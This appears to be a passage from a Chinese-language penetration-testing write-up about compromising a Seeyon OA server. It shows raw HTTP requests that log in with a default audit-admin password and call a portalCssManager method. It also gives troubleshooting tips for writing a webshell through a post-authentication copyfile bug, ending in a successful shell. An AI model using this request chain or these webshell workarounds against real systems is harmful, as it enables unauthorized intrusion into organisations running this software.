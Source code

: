 POST /seeyon/rest/authentication/ucpcLogin HTTP/1.1  
Host:  
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0  
Content-Length: 71  
Content-Type: application/x-www-form-urlencoded  
Accept-Encoding: gzip  
​  
UserAgentFrom=xx&login\_username=audit-admin&login\_password=seeyon123456

获取 cookie 之后就可以使用补丁较新的后台洞进行深入利用，这次使用 copyfile 这个后台洞

但实战后发现这个漏洞存在一些坑点，写入 webshell 时候报错了

POST /seeyon/ajax.do?method=ajaxAction&managerName=portalCssManager&rnd=111 HTTP/1.1  
Accept: \*/\*  
Content-Type: application/x-www-form-urlencoded;charset=UTF-8  
Content-Length: 70  
Host: 192.168.91.17  
Connection: Keep-Alive  
User-Agent: Apache-HttpClient/4.5.13 (Java/1.8.0\_321)  
Accept-Encoding: gzip,deflate  
​  
arguments=%5B%22xxxxxx%22%5D&managerMethod=generateCssFileByCssStr

![image-20231108144907706](assets/1702861965-d9027a469b10af5e94376120edf8e928.png)

本地开环境调试一下，fuzz 发现是双引号所导致，可通过前面加`\`解决，还有其他的问题总结如下：

-   写 seeyon 路径下会 404，可以换写到 root 目录下
-   webshell 的双引号需要前面加入反斜杠，即`“`换成`\"`
-   复制的文件名不能与之前的相同，否则会复制失败
-   `//`后需要进行换行

经过一首歌的时间，最终成功 getshell
